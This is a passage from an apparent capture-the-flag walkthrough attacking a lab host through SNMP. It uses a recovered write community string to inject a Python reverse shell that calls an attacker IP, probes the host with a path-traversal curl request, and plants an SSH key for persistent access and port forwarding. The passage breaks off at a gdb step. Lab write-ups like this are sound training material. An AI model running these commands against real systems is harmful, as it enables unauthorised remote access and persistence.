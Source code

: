 Getting our beautiful `rwcommunity` string: "SuP3RPrivCom90".

![image-20201103003206768](/assets/img/image-20201103003206768.png)

Then, start listening with `nc` and we can prepare our payload and add it to `snmp` following [this article](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e):

```bash
# Check if nc is installed
curl -s -X POST --cookie "$ADMIN_COOKIE" --data "logdir=../../../../../bin" "http://10.10.10.195/admin/log/dir" | grep -o "'nc'"
# Create command call
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."lolz"'  = createAndGo 'nsExtendCommand."lolz"' = /usr/bin/pyhton3 'nsExtendArgs."lolz"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.89\",9003));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"'
# Reset SNMP to trigger the injected payload
snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendObjects
```

![image-20201103011037124](/assets/img/image-20201103011037124.png)

Download the files from `/home/user` and start to analyze them, you'll notice that the executable operates on port 5001 on localhost, so why don't we establish an ssh tunnel to be more comfortable?

```bash
# Generate ssh key
ssh-keygen -b 2048 -t ed25519 -f ./key -q -N "" -C ""
# Put the key on the server
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."lolz"'  = createAndGo 'nsExtendCommand."lolz"' = /bin/bash 'nsExtendArgs."lolz"' = "-c 'echo ${KEY} >> ~/.ssh/authorized_keys'" && snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendObjects
# Launch local port forwarding
ssh Debian-snmp@10.10.10.195 -i key -N -L 5001:127.0.0.1:5001 -v
```

Using `gdb` on the binary file, and running `info proc mappings`:
